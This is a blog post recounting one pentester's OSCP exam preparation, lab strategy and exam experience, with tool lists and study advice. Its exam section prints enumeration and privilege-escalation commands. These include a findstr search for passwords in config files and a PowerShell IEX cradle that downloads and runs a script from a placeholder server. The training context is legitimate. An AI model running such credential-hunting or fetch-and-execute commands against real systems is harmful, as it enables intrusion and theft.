 :slug: oscp-journey/
:date: 2019-12-04
:category: opinions
:subtitle: The meaning of Try Harder
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Man sitting facing laptop. Photo by Clint Patterson on Unsplash: https://unsplash.com/photos/dYEuFB8KQJk
:description: The OSCP exam is one of the hardest certifications out there for pentesters. Many people take this exam to test their pentesting abilities, but most of them don’t pass it on the first attempt. Here I will show you how I prepared for the OSCP exam and how you can prepare to do your best on it, too.
:keywords: Bussiness, Information, Security, Protection, Hacking, Best Practices
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/dYEuFB8KQJk

= How to Pass the OSCP

Before taking the exam
I already had years of work work experience as a penetration tester
at `Fluid Attacks`.
So, I already had the knew how to perform a penetration test
and how to build a technical report of my findings.
However, if you don’t have any work experience on the field
or you're just starting out,
this post may help you pass your exam.

The most important phase on a penetration test is scanning.
Here you will use tools to get information about your target,
such as its operating system, open ports, the services running on those ports
and their versions, whether they have public vulnerabilities or not,
and whether there is a public exploit for those vulnerabilities.
Since `metasploit` is restricted to only *ONE* machine
(this includes the auxiliary modules too)
you need to be familiar with tools such as:

* link:https://nmap.org/[Nmap]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://tools.kali.org/information-gathering/nikto[Nikto]
* link:https://tools.kali.org/web-applications/gobuster[Gobuster]
* link:https://github.com/maurosoria/dirsearch[Dirsearch]
* link:https://tools.kali.org/information-gathering/enum4linux[enum4linux]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]


The only way to do this is by using them continuously
until you develop a solid enumeration strategy.
To help with this there are services like link:https://www.hackthebox.eu/[hackthebox] and link:https://www.vulnhub.com/[vulnhub],
where you can find vulnerable machines on which to test your skills.

image::hackthebox.png[owned-machines]

Once there you can also practice the _gaining access_ phase
and your privilege escalation strategies with multiple operating systems
and vulnerabilities that resemble the ones in real-life scenarios.
You would be surprised by how many times
I’ve encountered a vulnerability on `hackthebox` first
and then on a real-life service.
The tools and resources that I got the most from for privilege escalation were:

* link:https://github.com/rebootuser/LinEnum[linenum]
* link:https://github.com/AonCyberLabs/Windows-Exploit-Suggester[windows exploit suggester]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]
* link:https://github.com/411Hall/JAWS[JAWS]
* link:https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc[PowerUp]
* link:https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/[g0tmilk Linux privesc blog]
* link:https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/[absolomb Windows privesc blog]

I recommend hacking all the live machines that you can
without any help and get some points on the platform.
Doing this helps you get used to the tools
and increases your confidence in using them when you take the exam.
If you can’t hack a machine and it gets removed,
you can check the walkthrough by link:https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA[Ippsec]
and learn new things.
You can learn stuff from these videos
even for machines you did root.
Do this for at least one month or,
if you have no work experience whatsoever, two months.

== Attacking the Lab

I had a month of lab access, so the approach I took
to the course and the lab was to split them by days
One concentrating on the guide
and taking notes of things that I didn't know,
and another day for attacking the lab machines.

When you are working on the machines,
also work on your time management skills.
Do not spend too much time on one machine when you can try another one.
Time management becomes very important when you are taking your exam.

Before your lab access ends,
be sure that you fully understand how to do a `buffer overflow`.
Take notes of every step, copy all the commands that you need,
and also how to get the `return address`.


== Post Lab

Here you want to gather the most information
about the last two steps.
We are going back to `hackthebox`
but instead of doing the active machines
we are going to do the ones from link:https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0[this list]
(there are also some from `vulnhub`).

image::url-oscp.png[oscp-like-machines]

Try to conquer those machines listed
without the aid of walkthroughs.
When you finish one, look at these walkthroughs
to check whether there is another way in,
if so then also practice it.

The day before the exam, I did nothing.
Your body and mind need to rest
and you should not try to cram before the test.
Eat your favourite foods whatever they may be.
Treat yourself to a well-deserved dessert,
watch movies, and series that you perhaps ignored
when you focused on your studies.
The point is to de-stress so you're fresh when you take the exam.


== The Exam

The task is to gain administrative access
to the machines in the network.
There are 5 machines,
each is worth a certain number of points if you complete it
and you need at least `70` points to pass the exam.
The machine points are distributed as:

* 25 points Buffer Overflow
* 25 points machine
* Two 20 points machines
* 10 points machine

I started with the `25 points BoF` machine
while I scanned all the other ones.
I did this because I knew that I could follow the guide step-by-step
and get the BoF points.
My scanning strategy was to run `nmap` with these options:

.nmap with options
[source,bash]
----
$ nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
----

Also, I pinged the machine
in order to view its operative system.
If the `TTL` (Time to Live) is `64` then it is a `Linux` machine
and if it is `128` then it’s a `Windows` machine.
When the port scan finished I checked every web service
and used a web crawler like `dirbuster` or `dirsearch`.

After finishing the `BoF` machine,
I started hacking the machines
with all the information that I had collected.
I ended up going down rabbit holes
trying to gain admin privileges on the 25-pointer machine.
Because of the time the 25-point machine was taking,
I quickly decided to switch to both the 20-point
and finally, the 10-pointer machine.

For privilege escalation
I first checked the operative system version and kernel,
this can be done by running:

[source,bash]
----
$ uname -a #linux
> systeminfo #windows
----

If it was `Linux` I checked for `sudo` rights
running processes, and for `SUID` executables.
There is a tool named `linenum` but it’s too verbose
and I like to search for things manually.

[source,bash]
----
$ sudo -l
$ ps -aux
$ find / -perm -u=s -type f 2>/dev/null
----

If it was `Windows`, I checked for the `Groups.xml` file
(usually it has administrative user and password information there),
installed software and tried to use `powershell`
to run `Windows` exploits.
When it comes to `Windows`, most of the time the way of escalating privileges
is through a vulnerability in the `OS` version
or in an installed program version.

[source,bash]
----
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
----


I finished my test in less than 10 hours
with 4 admins and 1 user for a little more than `75` total points.
The mistake that I made
was to be lazy with my screenshots,
so I needed to redo all the machines
to get all of my evidences. *DO NOT DO THIS!*
The next day I did my technical documentation,
the advice here is to put everything that you did
from the _scanning_ phase up to the _privilege escalation_ phase.
Also, if you modified an exploit (even if is only one line)
put it on the report and mark what you modified.

image::oscp-win.png[oscp-win]

== Be prepared and do your best

The OSCP is a difficult certification, but it’s not impossible.
The steps before the lab are going to help you
get the most out of the course
and to establish your own routine when it comes to doing a penetration test.
The enumeration and scanning phases
are the most important ones in the whole process
because you can spend hours going down rabbit holes
if you do not do these steps properly.
Mental toughness is needed to pass this test,
so be prepared to think quickly and creatively,
daisy-chaining vulnerabilities, and rest when you need it.
The discord groups of hackthebox and OFFSEC are at your disposal
to answer your questions or give you hints where you need them. Try harder.
